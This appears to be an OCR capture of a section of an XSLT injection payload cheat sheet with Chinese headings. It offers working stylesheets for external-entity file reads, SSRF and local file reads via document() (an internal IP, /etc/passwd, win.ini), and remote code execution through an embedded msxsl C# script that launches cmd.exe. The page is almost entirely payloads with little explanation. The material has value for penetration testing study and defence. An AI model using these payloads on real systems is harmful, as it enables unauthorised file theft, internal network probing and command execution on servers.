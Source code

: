 ```xml
</body>
</html>
```
  ##### 外部实体
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    Fruits &ext_file;:
    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>

</xsl:stylesheet>
```
  ##### 读取文件和SSRF
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    Fruits:
	    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```
  ##### 使用嵌入式脚本块远程执行代码
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
	<xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT ---	
  </xsl:template>
```